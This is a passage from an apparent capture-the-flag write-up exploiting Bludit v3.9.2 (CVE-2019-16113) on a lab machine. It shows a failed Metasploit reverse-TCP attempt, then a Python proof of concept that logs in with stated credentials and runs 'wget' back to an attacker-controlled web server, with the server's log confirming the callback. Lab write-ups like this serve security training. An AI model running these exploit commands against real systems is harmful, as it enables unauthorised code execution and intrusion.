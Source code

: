 ```


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 192.168.1.98:4444
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading ScDPUYvvNY.png...
[*] Uploading .htaccess...
[*] Executing ScDPUYvvNY.png...
[!] This exploit may require manual cleanup of '.htaccess' on the target
[*] Exploit completed, but no session was created.
```

But remember we can try the Python PoC, that won't drop a shell directly but
we should be able to execute a command:

```
$ python 48568.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c 'wget http://10.10.14.82:8888'


╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝

 CVE-2019-16113 CyberVaca


[+] csrf_token: c70c85766c4e397c88528a05f2096ec4b155ccb7
[+] cookie: dvn3jo5f1srsl0in6snh59k346
[+] csrf_token: 1c97c7eab1fadc24b5ac09a593e150c794a19eb7
[+] Uploading oytpsybc.jpg
[+] Executing command: wget http://10.10.14.82:8888
[+] Delete: .htaccess
[+] Delete: oytpsybc.jpg
```

We can see the connection on our oneline web server:

```
$ ruby -run -e httpd . -p 8888
[2020-08-16 20:54:16] INFO  WEBrick 1.6.0
[2020-08-16 20:54:16] INFO  ruby 2.7.1 (2020-03-31) [x86_64-linux]
[2020-08-16 20:54:16] INFO  WEBrick::HTTPServer#start: pid=71953 port=8888
10.10.10.191 - - [16/Aug/2020:20:54:53 CEST] "GET / HTTP/1.1" 200 2265
- -> /
```
